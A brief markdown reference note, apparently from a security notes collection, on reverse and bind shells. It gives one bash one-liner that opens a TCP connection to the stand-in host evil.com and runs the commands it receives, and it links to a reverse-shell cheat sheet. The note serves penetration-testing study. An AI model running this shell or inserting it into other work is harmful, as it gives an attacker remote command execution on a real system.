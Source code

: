 # Reverse and Bind shells

It's possible to execute remotely command creating a shell that
connects back to home, like this below in ``bash``

```
exec 5<>/dev/tcp/evil.com/<same unfiltered port> $ cat <&5 | while read line; do $line 2>&5 >&5; done
```

## Links

 - [Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
 - https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/
